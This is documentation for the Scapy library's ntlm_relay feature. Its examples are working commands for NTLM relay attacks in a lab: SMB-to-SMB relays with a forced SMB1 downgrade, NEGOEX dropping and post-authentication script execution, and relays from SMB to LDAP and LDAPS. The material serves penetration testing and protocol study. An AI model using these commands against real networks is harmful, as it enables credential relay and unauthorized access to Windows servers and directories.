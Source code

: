 NTLM
====

Scapy provides dissection & build methods for NTLM and other Windows mechanisms.
In particular, the ``ntlm_relay`` command allows to perform some NTLM relaying attacks.

.. note::

    Read `this article from hackndo <https://en.hackndo.com/ntlm-relay/>`_ to understand how NTLM relay work and what we are trying to achieve here.

Examples
--------


**Requirement: Answer to all netbios requests with the local IP**

.. code::

    netbios_announce(iface="virbr0")

SMB <-> SMB: SMB relay with force downgrade to SMB1
___________________________________________________

.. note::

    ``server_kwargs={"REAL_HOSTNAME":"WIN1"}`` is compulsory on SMB1 if the name that you are spoofing is different from the real name. Set this to avoid getting a ``STATUS_DUPLICATE_NAME``

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"})

.. image:: ../graphics/ntlm/ntlmrelay_smb.png
   :align: center

.. image:: ../graphics/ntlm/ntlmrelay_smb_win1.png
   :align: center

.. image:: ../graphics/ntlm/ntlmrelay_smb_wireshark.png
   :align: center

.. image:: ../graphics/ntlm/ntlmrelay_smb_win2.png
   :align: center


SMB <-> SMB: Perform a SMB2 relay - default
___________________________________________

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0")

.. warning::

    The legitimate client will the validity of the negotiated flags by using a signed IOCTL ``FSCTL_VALIDATE_NEGOTIATE_INFO`` which we cannot fake, therefore losing the connection.
    We however still have created an authenticated illegitimate client to the server, where we won't be performing that check, that we can use. See the case right below.

SMB <-> SMB: Perform a SMB2 relay - scripted
____________________________________________

Because of the note above, we now close the legitimate client & run commands on the server directly.

.. note::

    Setting ``ECHO`` to ``False`` on the server instantly terminates the connection once Authentication is successful.
    We set ``RUN_SCRIPT`` to ``True`` to run a script (in ``DO_RUN_SCRIPT`` in the automaton) once Authentication is successful. Note that ``REAL_HOSTNAME`` is required in this case.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", server_kwargs={"ECHO": False}, client_kwargs={"REAL_HOSTNAME": "WIN1", "RUN_SCRIPT": True})

.. image:: ../graphics/ntlm/ntlmrelay_smb2.png
   :align: center

SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop NEGOEX
_________________________________________________________________

This example points out that the NEGOEX messages are optional: dropping them has no effect on the SMB1 connection.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"PASS_NEGOEX": False, "REAL_HOSTNAME":"WIN1"})

SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop extended security
____________________________________________________________________________

This probably won't work. SMB1 clients abort unextended connections these days.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"}, DROP_EXTENDED_SECURITY=True)

SMB2 <-> LDAP: relay SMB's NTLM to an LDAP server
_________________________________________________

.. note::

    Negotiating LDAP using SMB's credentials does work, but sets the ``SIGN`` field during the NTLM exchange. This causes LDAP to require signing. Read `the HackNDo article <https://en.hackndo.com/ntlm-relay/>` for more info.

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0")

.. image:: ../graphics/ntlm/ntlmrelay_ldap.png
   :align: center

SMB2 <-> LDAPS: relay SMB's NTLM to an LDAPS server
___________________________________________________

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAPS_Client, iface="virbr0")

.. image:: ../graphics/ntlm/ntlmrelay_ldaps.png
   :align: center
